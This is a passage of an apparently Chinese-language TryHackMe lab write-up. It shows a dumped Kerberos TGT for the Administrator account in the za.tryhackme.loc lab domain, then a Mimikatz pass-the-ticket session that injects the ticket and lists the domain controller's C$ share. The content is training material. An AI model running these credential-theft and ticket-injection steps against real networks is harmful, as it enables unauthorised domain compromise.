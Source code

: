```shell title="TGT Request"
             S794AkaKHcLFvukd41VTm87VvDOp6mM5lID/PLtTCPUZ0zrEb01SNiCdB5IAfnV23vmqsOocis4uZklG
             CNdI1/lsICpS/jaK6NM/0oKehMg+h4VAFLx4HnTSY4ugbrkdxU948qxPEfok/P6umEuny7yTDQFoCUKk
             RuLXbtwwplYTGBDLfzwhcNX8kc/GGLbH9+B8zRXxhd3TGQ7ZT03r798AjobKx024ozt6g4gjS5k/yIT+
             f29XrPzc+UODunO2Qv8JM5NAE3L6ryHp/DdgTaXGBRccgQBeQERNz6wxkdVK6SB7juOjU5JoZ5ZfmTuO
             hQ5hnboH1GvMy4+zeU2P7foWEJE76i9uZMbjUilbWRERYUL/ZjjXQBVWBaxoAdFIoawAzSXUZniNavnS
             n22qqgbd79Zj+lRavAb7Wlk5Gul4G6LMkh2MIJ4JOnrV0JV1yOhoqZ5V6KX/2r7ecyrVZIf2Qf0+ci9G
             vboJiLvWKgXkx7VaKbcLhO743BNYyq57nPNvWhVt3jbFmEq4nTdNou6hQHG4O5hVMhBKGgTwYz3yFPOP
             iuxroniQawSUJbmwObxVeoculPhxEJ69MSgKROTXrKrQAJ84D5QJHQYZus6w+LtodZn1//ZLhgILeFsY
             5K6d4ot2eqEr/A4Vu+wFjGjw87FTvHVcf8HdtGhqkawtPOrzo4HxMIHuoAMCAQCigeYEgeN9geAwgd2g
             gdowgdcwgdSgKzApoAMCARKhIgQgQr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVWhERsPTFVO
             QVIuRVJVQ0EuQ09NohcwFaADAgEBoQ4wDBsKc3ZjLmdpdGxhYqMHAwUAQOEAAKURGA8yMDIyMDIwNjE3
             NTQ0NlqmERgPMjAyMjAyMDcwMzU0NDZapxEYDzIwMjIwMjEzMTc1NDQ2WqgRGw9MVU5BUi5FUlVDQS5D
             T02pJDAioAMCAQKhGzAZGwZrcmJ0Z3QbD2x1bmFyLmVydWNhLmNvbQ=

         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             : ZA.TRYHACKME.LOC
         UserName                 : Adminsitrator
         UserRealm                : ZA.TRYHACKME.LOC
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

现在我们可以使用 Mimikatz 来加载 TGT 并认证到 THMDC：

```shell title="Powershell"
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
```